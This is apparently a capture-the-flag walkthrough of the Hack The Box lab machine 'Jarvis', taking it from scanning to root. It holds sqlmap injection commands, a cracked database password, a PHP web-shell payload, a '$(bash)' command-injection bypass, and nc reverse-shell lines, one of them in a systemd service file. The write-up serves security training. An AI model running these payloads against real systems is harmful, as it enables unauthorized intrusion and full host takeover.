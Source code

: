 ```yaml
---
title:     "Hack The Box - Jarvis"
tags: [linux,medium,sudo,setuid,sqli,phpmyadmin,python]
layout: post
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/1.png)

We are going to pwn Jarvis from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/194>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.2 - 4.9 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), Linux 3.13 (94%), Linux 3.16 (94%), Linux 3.18 (94%), Linux 4.2 (94%), Linux 3.12 (93%), Linux 3.8 - 3.11 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP:

It looks like a normal webpage. So better we try bruteforcing the directories.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/2.png)

Got some details on the bottom of the page.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/3.png)

## Gobuster Result:

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.143
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/04/03 19:14:12 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/.htpasswd (Status: 403)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)
===============================================================
2020/04/03 19:15:59 Finished
===============================================================
```

``/phpmyadmin``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/4.png)
Tried with default credentials ``Username: root Password: [null]`` but failed so better we try to enumerate more.

In the webpage clicking on ``Rooms`` it redirects to ``rooms-suites.php`` and by clicking any of those rooms it redirects to ``/room.php`` with a parameter called cod that holds the room number.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/5.png)

So I started SQLMAP with the url. There is some kind of filter which Ban us for 90 seconds.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/6.png)

>sqlmap -u http://supersecurehotel.htb/room.php?cod=1 --level 5 --risk 3

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/7.png)
And it give me some payload. It Looks like SQL Injection using UNION is there.

### What is SQL Injection using UNION?
>When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database.

> sqlmap -u http://supersecurehotel.htb/room.php?cod=1 --level 5 --risk 3 --password

Got ``DBadmin`` hash.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/9.png)

I cracked that using [CrackStation](https://crackstation.net/)<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/10.png)

``/phpmyadmin``<br/>

``DBadmin:imissyou``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/11.png)

Found Phpmyadmin's version so search for any exploit available.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/12.png)

><https://www.exploit-db.com/exploits/44928>

According to the exploit we need to inject the payload in SQL Query.<br/>
```select '<?php system($_GET["cmd"]);?>'```
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/13.png)

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/14.png)

Now we need to get the Session ID of phpMyAdmin.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/15.png)

``http://supersecurehotel.htb/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_8271hfci8stuji9h69a2huedmt4dt75e&cmd=ls``
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/16.png)

Its working lets try to get reverse shell!

## Shell as www-data

``nc -e /bin/sh 10.10.14.19 1234``

I got the shell as ``www-data``<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/17.png)


I started with ``sudo -l`` and looks like we can run ``simpler.py`` as pepper without password.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/18.png)

Lets see how ``simpler.py`` works<br/>
```
python simpler.py
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************


********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    
```
While checking the python code, I found a Interesting thing:
```
def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

It takes the input and ping the command we send and it also forbidden ``['&', ';', '-', '`', '||', '|']`` these symbols to prevent us to do some other commands.But they didn't filtered ``$``, we can use this by ``$(command)``. I did ``$(bash)`` and got the user ``pepper``.

```
$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: 127.0.0.1 $(bash)
127.0.0.1 $(bash)
pepper@jarvis:/var/www/Admin-Utilities$ whoami
whoami
pepper@jarvis:/var/www/Admin-Utilities$
pepper
```

## Privilege Escalation

Started my enumeration script and found there is a SUID binary.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/19.png)

I checked [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/), According to that we need to create a service that executes a file of our choice when it enables.
I created a service called ``test.service`` in my machine and uploaded that to the box.

``test.service``
```
[Service]
Type=oneshot
ExecStart=/bin/sh -c "nc -e /bin/sh 10.10.14.19 5555"
[Install]
WantedBy=multi-user.target
```

Uploaded the script to the box and gave executable permission. Now we need to link the service first and then enable the service which executes it.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/20.png)

Started my listener<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jarvis/21.png) <br/>
I'm Root

